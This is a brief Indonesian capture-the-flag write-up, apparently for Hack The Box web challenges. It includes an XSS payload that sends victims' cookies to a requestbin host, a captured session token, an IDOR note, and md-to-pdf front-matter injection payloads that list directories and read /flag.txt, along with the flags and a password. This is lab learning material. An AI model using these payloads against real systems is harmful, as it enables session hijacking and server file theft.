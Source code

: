 ## Kryptos Support
Disini kita menggunakan XSS vulnerability:
```
<script>document.location="https://requestbin.io/112j9z21?"+document.cookie;</script>
```
![](Pasted%20image%2020220515080633.png)
```
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1NzY2OTJ9._XSOlGzcLlymD93QD9JcaOtxN7KI9KwNfWz8JnED_J8
```

Kita bisa menggunakan IDORS pada:
http://68.183.37.74:30665/settings
![](Pasted%20image%2020220515093732.png)
### Flag
HTB{x55_4nd_id0rs_ar3_fun!!}

## BlinkerFluids

#### read directory
```
---js
{
    css: `body::before { content: "${require('fs').readdirSync('/').join()}"; display: block }`,
}
---
```
#### read file
```
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt', 'utf8')}"; display: block }`,
}
---
```
![](Pasted%20image%2020220515183045.png)
![](Pasted%20image%2020220515182844.png)

### Flag
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}

### Referensi
https://github.com/simonhaenisch/md-to-pdf/issues/99
https://www.geeksforgeeks.org/node-js-fs-readdirsync-method/ // to read directory
https://nodejs.dev/learn/reading-files-with-nodejs // to read file

## Space pirate: Going Deeper
pass
```
DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft
```
